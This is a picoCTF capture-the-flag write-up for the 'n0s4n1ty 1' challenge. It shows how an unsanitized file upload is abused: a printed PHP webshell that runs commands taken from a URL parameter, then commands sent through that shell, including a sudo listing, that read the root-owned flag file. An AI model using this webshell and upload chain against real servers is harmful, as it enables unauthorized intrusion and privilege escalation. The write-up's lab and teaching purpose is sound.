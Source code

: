 # PICOCTF : n0s4n1ty 1

1. Launch instance. Then open the given link.
2. We are provided with a submission page. The clue lies in unsanitized valid file extension.
3. We can test the waters by submitting a normal `jpeg` file. 
4. After hitting the upload button, we are led to the `/upload.php`, telling us that the uploaded file is in the `/upload` directory.
5. Let's see if we can get a reverse shell.
6. I submitted another file named `php-reverse-shell.php` from saved kali linux php shell, and set the ips and listener.
7. It got uploaded despite the `php` file extension!
8. It loaded on the site, but didnt reflect anything to my listener.
9. I then opted for another php file, that is for webshells.
```
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
10. I copied the path including the `cmd` to be able to ran some terminal commands: `http://standard-pizzas.picoctf.net:64588/uploads/webshell.php?cmd=whoami`
11. We can use [cyberchef](https://cyberchef.org/) for URL encoding of commands.
12. It responds as `www-data`. Now we need to escalate privileges to get the flag in the `/root` directory.
13. We can first check the sudo privileges: `http://standard-pizzas.picoctf.net:64588/uploads/webshell.php?cmd=sudo%20-l`.
```
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL 
```
14. This is great, we can access everything without any password!
15. Let's now find a way to get the flag in the `/root` directory: `http://standard-pizzas.picoctf.net:64588/uploads/webshell.php?cmd=sudo%20ls%20-la%20/root`
```
total 12 drwx------ 1 root root 22 Mar 6 03:56 .
drwxr-xr-x 1 root root 39 Aug 17 16:16 ..
-rw-r--r-- 1 root root 571 Apr 10 2021 .bashrc
-rw-r--r-- 1 root root 161 Jul 9 2019 .profile
-rw-r--r-- 1 root root 36 Mar 6 03:56 flag.txt 
```
16. We got the `flag.txt`! Now let's retrieve it: `http://standard-pizzas.picoctf.net:64588/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt`
17. Retrieve your picoCTF flag!


